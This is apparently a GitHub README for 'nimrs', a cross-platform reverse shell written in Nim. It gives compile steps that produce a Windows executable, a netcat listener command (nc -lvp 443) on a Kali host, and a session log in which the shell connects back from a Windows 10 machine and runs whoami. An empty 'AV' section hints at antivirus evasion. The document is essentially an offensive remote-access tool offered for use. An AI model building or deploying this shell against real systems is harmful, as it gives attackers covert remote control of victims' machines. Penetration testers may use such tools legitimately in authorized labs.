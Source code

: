 # nimrs

portable nim (nim-lang) reverse shell 

Windows, Linux, MacOS

https://nim-lang.org/

**Install**
https://nim-lang.org/install.html

**Cross Compile**
https://nim-lang.org/docs/nimc.html

> Cross compilation for Windows
> To cross compile for Windows from Linux or macOS using the MinGW-w64 toolchain:
> 
> nim c -d:mingw myproject.nim
> Use --cpu:i386 or --cpu:amd64 to switch the CPU architecture.
> 
> The MinGW-w64 toolchain can be installed as follows:
> 
> Ubuntu: apt install mingw-w64
> CentOS: yum install mingw32-gcc | mingw64-gcc - requires EPEL
> OSX: brew install mingw-w64

```
WOPR@WOPR nimrs % Nim/bin/nim c -d:mingw --cpu:i386 nimrs.nim
Hint: used config file '/private/var/tmp/nimrs/Nim/config/nim.cfg' [Conf]
Hint: used config file '/private/var/tmp/nimrs/Nim/config/config.nims' [Conf]
Hint: system [Processing]
Hint: widestrs [Processing]
Hint: io [Processing]
Hint: nimrs [Processing]
Hint: net [Processing]
Hint: nativesockets [Processing]
Hint: os [Processing]
Hint: strutils [Processing]
Hint: parseutils [Processing]
Hint: math [Processing]
Hint: bitops [Processing]
Hint: macros [Processing]
Hint: algorithm [Processing]
Hint: unicode [Processing]
Hint: pathnorm [Processing]
Hint: osseps [Processing]
Hint: winlean [Processing]
Hint: dynlib [Processing]
Hint: times [Processing]
Hint: options [Processing]
Hint: typetraits [Processing]
Hint: time_t [Processing]
Hint: sets [Processing]
Hint: hashes [Processing]
Hint: monotimes [Processing]
Hint: osproc [Processing]
Hint: strtabs [Processing]
Hint: streams [Processing]
Hint: cpuinfo [Processing]
Hint: operation successful (50561 lines compiled; 0.711 sec total; 58.539MiB peakmem; Debug Build) [SuccessX]
WOPR@WOPR nimrs % file nimrs.exe 
nimrs.exe: PE32 executable (console) Intel 80386, for MS Windows
```

**Usage**

Edit nimrs.nim. 

```
root@kali:~# nc -lvp 443
listening on [any] 443 ...
192.168.116.173: inverse host lookup failed: Unknown host
connect to [192.168.116.199] from (UNKNOWN) [192.168.116.173] 50531
whoami
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\IEUser\Downloads>whoami & echo DONEDONE
msedgewin10\ieuser

```

**AV**



Enjoy~
